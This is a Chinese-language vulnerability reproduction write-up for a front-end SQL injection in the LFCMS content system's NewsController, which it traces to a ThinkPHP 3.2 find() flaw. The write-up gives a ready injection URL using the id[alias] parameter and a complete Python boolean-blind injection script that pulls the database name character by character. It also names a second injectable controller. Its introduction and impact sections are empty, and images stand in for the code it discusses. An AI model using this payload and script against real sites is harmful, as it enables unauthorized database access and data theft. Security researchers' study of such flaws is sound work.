




LFCMS NewsController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

回到lfcms，漏洞起始点位于`/Application/Home/Controller/NewsController.class.php`中的`index`方法，代码如下

在代码第六行调用了`News`模型中的`detail`方法，跟进该方法

可以看到在第八行进而调用了`tp`的`find`方法，在该版本中`find`方法是可以进行注入的，同时参数`$id`是我们可控的，首先我们来看一下正常的输入情况(图中域名为本地搭建解析)

根据`tp3.2`的注入点构造一下语句，访问如下链接

    http://www.0-sec.org/index.php/Home/News/index/?id[alias]=where id=1 and 1--

页面与正常访问相比没有变化，查看一下数据库日志，看下后端数据库语句

可以看到在`id`处已经可以进行`sql`语句的拼接，也就证明该处是存在可利用的注入点的，由于本套程序对于错误信息是有屏蔽的，在这里我们很难利用报错注入带出数据，在该处可以考虑使用布尔类型的盲注，两种回显状态如下

接着写一下脚本（以查询数据库名为例）

    import requests
    url = 'http://lfcms.com/index.php/Home/News/index/?id[alias]=where id=1 and '
    result = ''
    for i in range(1,50):
        print('-----------------------------')
        for j in range(32,127):
            payload = 'if((ascii(substr((select database()),{},1))={}),1,0)--'.format(i,j)
            temp = url+payload
            try:
                html = requests.get(temp,timeout=10)
                if 'tttest' in html.text:
                    result+=chr(j)
                    print(result)
                    break
            except:
                print('[-]error')

结果如下

相同原理的利用点还有很多，如位于`/Application/Home/Controller/MovieController.class.php`中的`index`方法的`id`参数，这里就不再重复分析了

参考链接
--------

> https://xz.aliyun.com/t/7844
